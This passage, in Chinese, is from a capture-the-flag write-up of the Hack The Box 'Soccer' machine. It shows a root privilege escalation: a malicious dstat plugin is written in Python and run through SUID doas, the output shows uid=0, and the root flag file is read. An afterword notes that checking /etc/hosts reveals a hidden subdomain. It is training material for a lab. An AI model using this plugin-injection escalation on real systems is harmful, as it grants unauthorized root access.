 **至此，我突然意识到自己又开始傻了，既然doas类似sudo，那么我执行命令时也应该用和sudo一样的格式啊……**  
**且doas我们之前确认过有设置SUID，以及其权限是root：**
```bash
player@soccer:/usr/local/share/dstat$ ls -l /usr/local/bin/doas
-rwsr-xr-x 1 root root 42224 Nov 17 09:09 /usr/local/bin/doas
```  

所以exploit命令应该是这样：
```bash
player@soccer:/usr/local/share/dstat$ echo -e "import os\nos.system('id')" > dstat_exploit.py
player@soccer:/usr/local/share/dstat$ doas /usr/bin/dstat --exploit
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
uid=0(root) gid=0(root) groups=0(root)
Module dstat_exploit failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
```

成功获取root shell。


## get root flag

不过秉持着尽量少地修改系统的原则。想想按照exp文章里直接给bash设置SUID的做法不太妥当，所以我选择直接拿flag：
```bash
echo -e "import os\nos.system('cat /root/root.txt')" > dstat_exploit.py
doas /usr/bin/dstat --exploit
```

---

## 后记

第一次玩了一把新鲜出炉放在Release Area的靶机~才知道原来新靶机是用另一个ovpn，并且一人一靶机。  
看着之前一部Windows的Support要退役，这台开始进入倒数，算算正好是周末放假时间。于是就想着我也要尝个新鲜~两天打下来十分开心。

总体来说感觉比之前打的那几台Esay难一些，看Forum过了的人也说不像是Esay的靶机。不过学到了很多，十分开心。  
获取初始访问有点绕，以及系统有各种清理还挺烦的。  

后来偶然在一个网站看到[别人的WP](https://systemweakness.com/soccer-hack-the-box-f02665c71abe)，关于如何找到另一个网页（soc-player.htb）有个新思路：查看hosts文件。  
惊了，连忙试了下看看是不是真的：
```bash
bash-5.0$ cat /etc/hosts
cat /etc/hosts
127.0.0.1       localhost       soccer  soccer.htb      soc-player.soccer.htb

127.0.1.1       ubuntu-focal    ubuntu-focal
```

学到了学到了啊，看来以后hosts文件也要列入信息收集的范围里。